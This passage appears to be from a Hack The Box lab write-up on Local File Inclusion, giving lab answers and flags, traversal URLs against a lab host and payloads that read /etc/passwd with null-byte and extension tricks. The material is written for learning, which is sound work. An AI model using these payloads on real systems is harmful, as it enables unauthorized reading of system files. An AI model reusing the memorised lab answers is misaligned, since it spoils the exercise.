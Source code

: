 **Answer:** `barry`

#### Lab Solution 2: Read flag.txt  
```bash
# Common flag locations to test
http://94.237.60.55:55141/index.php?language=../../../../flag.txt
http://94.237.60.55:55141/index.php?language=../../../../usr/share/flags/flag.txt
http://94.237.60.55:55141/index.php?language=../../../../var/flag.txt
http://94.237.60.55:55141/index.php?language=../../../../home/flag.txt

# Working payload:
http://94.237.60.55:55141/index.php?language=../../../../usr/share/flags/flag.txt
```

**Answer:** `HTB{n3v3r_tru$t_u$3r_!nput}`

---

## LFI Discovery and Testing

### Manual Testing Methodology

**Step 1: Parameter Identification**
```bash
# Look for parameters that might include files
?file=
?path=  
?page=
?include=
?inc=
?template=
?lang=
?language=
?dir=
?folder=
?document=
?root=
```

**Step 2: Basic LFI Tests**
```bash
# Test with common files
?file=/etc/passwd
?file=../../../etc/passwd
?file=../../../../etc/passwd
?file=../../../../../etc/passwd

# Test with different file extensions
?file=/etc/passwd%00
?file=/etc/passwd.txt
?file=/etc/passwd.php
```
